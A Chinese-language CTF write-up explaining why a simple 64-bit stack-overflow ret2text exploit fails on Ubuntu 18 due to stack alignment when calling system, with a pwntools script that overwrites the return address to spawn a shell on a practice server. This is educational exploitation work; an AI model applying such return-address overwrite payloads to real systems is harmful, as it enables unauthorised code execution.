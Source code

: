 ```yaml
---
title: 「Pwn」Ubuntu18 中 64位 ELF 在调用 system 时候可能出现的问题
date: 2022-03-31
tags: ['Pwn']
categories: ['CTF', 'cheatsheet']
authors: [nova]

---
```


# Ubuntu18中64位ELF在调用system时候可能出现的问题

这几天配好了Ubuntu18，测试的时候出现了一个问题。

研究了好久才解决，记录一下。

[题目\__Buuoj__RIP](https://buuoj.cn/challenges#rip)

<!--truncate-->

### 问题

这题是最基础的一个栈溢出题。有后门函数直接`system("/bin/sh");`，什么保护都没开，直接把返回地址覆盖按理来说就可以了。

本地测试的时候也确实是这样的，但是远程却出现了问题。

于是我拿自己的Ubuntu18测试了一下，发现同样出现了错误。

一通搜索之后才发现，ubuntu18及以上的libc中，64位ELF程序调用system函数时候需要考虑堆栈平衡

### 解决方法

改变Payload的长度或者进行栈转移即可



主要思路就是改变栈的地址。

这里贴一下exp

```python
from pwn import *
context(log_level='debug', arch='amd64', os='linux')

# sh = process("./pwn1")
sh = remote("node4.buuoj.cn", 29726)

# sh.recvuntil('please input\n')

backdoor_addr = 0x0401186
# payload = b'a'*(0xf+8) + p64(backdoor_addr) # 正常思考，但是没有对齐所以会错误
# payload = b'a'*0xf + p64(backdoor_addr) # exp1, 但是稍微有点没看明白为什么这样可以:<
# payload = b'a'*(0xf+8) + p64(backdoor_addr) + p64(backdoor_addr - 1) # exp 2, 这里的backdoor_addr - 1对应了一个retn，换成其他的也可以，也是为了堆栈平衡
payload = b'a'*(0xf+8) + p64(backdoor_addr + 1) # exp 3, +1 让call_system函数中检查对齐的那个地址对齐0x10
"""
不一定是+1,最多16次肯定能对齐,还不行就栈转移吧www
"""
sh.sendline(payload)
sh.interactive()
```

### 深入

在这里我准备深入研究一下此时的堆栈，也算是gdb的初探门径

> 寄，Ubuntu18的gdb好像炸了。等修好了再补充:<



## 参考博客

[在一些64位的glibc的payload调用system函数失败问题](http://blog.eonew.cn/archives/958)

[ret2text涉及到的堆栈平衡问题](https://blog.csdn.net/qq_41560595/article/details/112161243)

[升级gcc7.3之后MOVAPS指令导致的程序coredump解决过程](https://www.pianshen.com/article/8326860581/)